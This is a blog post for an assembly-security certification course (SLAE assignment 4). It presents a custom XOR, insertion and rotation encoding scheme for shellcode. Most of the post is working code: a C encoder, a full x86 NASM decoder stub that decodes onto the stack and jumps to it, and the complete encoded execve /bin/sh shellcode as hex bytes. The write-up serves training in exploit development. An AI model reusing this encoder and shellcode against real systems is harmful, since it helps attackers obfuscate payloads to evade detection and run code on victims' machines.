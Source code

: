 ```yaml
---
comments: true
date: 2014-04-10
layout: post
title: 'SLAE Assignment 4: Custom Enc. Schema'
summary: '4th assignment of the SLAE'
tags: [asm-x86,nasm,slae]
---
```


This is the fourth of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Create a custom encoding schema like "insertion encoder"

  2. Create a working demo using execve-stack as the shellcode to encode, decode and run with the created schema

The custom encoding schema that I chose to create works as follow:

  1. The execve shellcode is encoded with XOR

  2. The result will be encoded using the insertion encoder with an incrementing value

  3. Every 32 bits the above result will be rotated (left or right, you choose) of 16 bits.

To encode the execve shellcode, like I wrote above, I developed the following C program:

	//Description:	Assignment #4 (PoC of Custom_Encoding_Schema)
	//Author:	Paolo Stivanin <https://github.com/paolostivanin>
	//SLAE ID:	526

	#include <stdint.h>
	#include <string.h>
	#include <stdio.h>
	#include <stdlib.h>

	#define ROL 0x00
	#define ROR !ROL

	void concatenate(uint8_t [], uint32_t);
	void rotate(uint32_t, uint32_t, uint32_t);
	void split_uint32(uint32_t);

	uint8_t *finalShellcode;
	uint32_t counter = 0;

	int main(void){
		uint8_t execveShellcode[] = {0xeb,0x25,0x5e,0x89,0xf7,0x31,0xc0,0x50,0x89,0xe2,0x50,0x83,0xc4,0x03,0x8d,0x76,0x04,0x33,0x06,0x50,0x31,0xc0,0x33,0x07,0x50,0x89,0xe3,0x31,0xc0,0x50,0x8d,0x3b,0x57,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0xe8,0xd6,0xff,0xff,0xff,0x2f,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68};
		uint8_t xorByte = 0x1c;
		uint8_t insertByte = 0xb2;

		size_t LEN=sizeof(execveShellcode);
		uint8_t xorWithInsertion[LEN*2];
		uint32_t i, j=0;

		restart:
		for(i=0; i<LEN; i++){
			if(execveShellcode[i] == xorByte){
				xorByte += 1;
				goto restart;
			}
		}
		for(i=0; i<LEN; i++){
			execveShellcode[i] ^= xorByte;
		}

		printf("XOR(Shellcode) using 0x%02x:\n", xorByte);
		for(i=0; i<LEN; i++){
			if(i==LEN-1) printf("0x%02x", execveShellcode[i]);
			else printf("0x%02x,", execveShellcode[i]);
		}
		
		for(i=0; i<LEN*2; i++){
			xorWithInsertion[i] = execveShellcode[j++];
			xorWithInsertion[++i] = insertByte++;
		}
		printf("\n\nINSERTION(XOR(Shellcode)):\n");
		for(i=0; i<LEN*2; i++){
			if(i==(LEN*2)-1) printf("0x%02x", xorWithInsertion[i]);
			else printf("0x%02x,", xorWithInsertion[i]);
		}	

		printf("\n\nROL16(XOR(INSERTION(Shellcode))):\n");

		finalShellcode = malloc(sizeof(xorWithInsertion));
		concatenate(xorWithInsertion, sizeof(xorWithInsertion));

		for(i=0; i<LEN*2; i++){
			if(i==(LEN*2)-1) printf("0x%02x", finalShellcode[i]);
			else printf("0x%02x,", finalShellcode[i]);
		}
		printf("\n");

		free(finalShellcode);

		return 0;
	}
		
	void concatenate(uint8_t arr[], uint32_t size){
	   	if(size % 4 != 0){
	   		printf("Size must be a multiple of 4\n");
	   		return;
	   	}
	   
	   	uint32_t i, value = 0;
		
	   	for(i=0;i<size;i++){
	   		value = value^arr[i];
	   		if(i%4 == 3){
	   			rotate(value, 16, ROL);
	   			value = 0;
	   		}
	   		else value = value<<8;
	   	}
	}
		
	void rotate(uint32_t input, uint32_t bits, uint32_t direction){
		uint32_t output;
		
		if(direction == ROL){
			output = input << (bits % (8 * sizeof(uint32_t)));
			output |= input >> ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
		}
		else
		{
			output = input >> (bits % (8 * sizeof(uint32_t)));
			output |= input << ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
	   	}
	   	split_uint32(output);
	}
		
	void split_uint32(uint32_t splitMe){
	   	uint32_t j;
	   	uint8_t b[4];
	   	b[0] = (splitMe >> 24);
	   	b[1] = (splitMe >> 16) & 0xff;
	   	b[2] = (splitMe & 0xffff) >> 8;
	   	b[3] = (splitMe & 0xff);
	   	for(j=0; j<4; j++){
	   		finalShellcode[counter++] = b[j];
	   	}
	}


And this is the shellcode used to decode and execute the original execve shellcode:

	;Description:	Assignment #4 (Custom_Encoding_Schema, 82 (decoder) + 104 (EncodedShellcode) bytes)
	;Shellcode:		\xeb\x4b\x5e\x31\xc0\x31\xdb\xb1\x0d\x31\xd2\x8a\x26\x8a\x46\x01\xc1\xc0\x10\x8a\x66\x02\x8a\x46\x03\x83\xc6\x04\x8a\x3e\x8a\x5e\x01\xc1\xc3\x10\x8a\x7e\x02\x8a\x5e\x03\x83\xc6\x04\x88\xe6\xc1\xc0\x10\x88\xf0\xc1\xc0\x10\x88\xfe\xc1\xc3\x10\x88\xf3\x66\x89\xd8\x35\x1c\x1c\x1c\x1c\x50\xfe\xc9\x75\xc0\xff\xe4\xe8\xb0\xff\xff\xff\x74\xe5\x6f\xe4\x33\xe3\x72\xe2\x75\xe1\x7e\xe0\x33\xdf\x33\xde\xe3\xdd\xe3\xdc\xe3\xdb\xca\xda\xf4\xd9\x9c\xd8\xd1\xd7\x17\xd6\xac\xd5\xfd\xd4\x95\xd3\x4b\xd2\x27\xd1\x91\xd0\x4c\xcf\xdc\xce\x2d\xcd\xff\xcc\x95\xcb\x4c\xca\x1b\xc9\x2f\xc8\xdc\xc7\x2d\xc6\x4c\xc5\x1a\xc4\x2f\xc3\x18\xc2\x6a\xc1\x91\xc0\x1f\xbf\xd8\xbe\x9f\xbd\x4c\xbc\xfe\xbb\x95\xba\x4c\xb9\xdc\xb8\x2d\xb7\xeb\xb6\x95\xb5\x42\xb4\x39\xb3\xf7\xb2
	;Author:	Paolo Stivanin <https://github.com/paolostivanin>
	;SLAE ID:	526

	global _start
	section .text
	_start:
		jmp short call_shellcode

	decoder:
		pop esi
		xor eax,eax
		xor ebx,ebx
		mov cl,13	;This is the counter. The shellcode is 104 bytes and this program read 8 byte every cycle so 104/8=13
		xor edx,edx
	ll:	mov ah, BYTE [esi]
		mov al, BYTE [esi +1]
		rol eax,16
		mov ah, BYTE [esi +2] 
		mov al, BYTE [esi +3]
		add esi,4
		mov bh, BYTE [esi]
		mov bl, BYTE [esi +1]
		rol ebx,16
		mov bh, BYTE [esi +2]
		mov bl, BYTE [esi +3]
		add esi,4

		mov dh,ah
		rol eax,16
		mov al,dh
		rol eax,16

		mov dh,bh
		rol ebx,16
		mov bl,dh

		mov ax,bx
		xor eax,0x1c1c1c1c
		push eax
		dec cl
		jnz ll
		jmp esp	

	call_shellcode:
		call decoder
		EncodedShellcode db 0x74,0xe5,0x6f,0xe4,0x33,0xe3,0x72,0xe2,0x75,0xe1,0x7e,0xe0,0x33,0xdf,0x33,0xde,0xe3,0xdd,0xe3,0xdc,0xe3,0xdb,0xca,0xda,0xf4,0xd9,0x9c,0xd8,0xd1,0xd7,0x17,0xd6,0xac,0xd5,0xfd,0xd4,0x95,0xd3,0x4b,0xd2,0x27,0xd1,0x91,0xd0,0x4c,0xcf,0xdc,0xce,0x2d,0xcd,0xff,0xcc,0x95,0xcb,0x4c,0xca,0x1b,0xc9,0x2f,0xc8,0xdc,0xc7,0x2d,0xc6,0x4c,0xc5,0x1a,0xc4,0x2f,0xc3,0x18,0xc2,0x6a,0xc1,0x91,0xc0,0x1f,0xbf,0xd8,0xbe,0x9f,0xbd,0x4c,0xbc,0xfe,0xbb,0x95,0xba,0x4c,0xb9,0xdc,0xb8,0x2d,0xb7,0xeb,0xb6,0x95,0xb5,0x42,0xb4,0x39,0xb3,0xf7,0xb2

Please note that `EncodedShellcode` **must be wrote in reverse order**. To perform this task, you can use [this small program](https://github.com/paolostivanin/SLAE/blob/master/utility/for-shellcode/reverse-shellcode.c) which I have developed.

Using libemu I made a graph of the execution flow of the above shellcode:

[![graph_assign4]({{ site.baseurl }}/images/2014/04/graph_assign4-551x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign4.png)

It works ;-)

[![assign4]({{ site.baseurl }}/images/2014/04/assign4-1024x525.png)]({{ site.baseurl }}/images/2014/04/assign4.png)

All the sources can be found in my [Github page](https://github.com/paolostivanin/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)


**Student ID: SLAE-526**
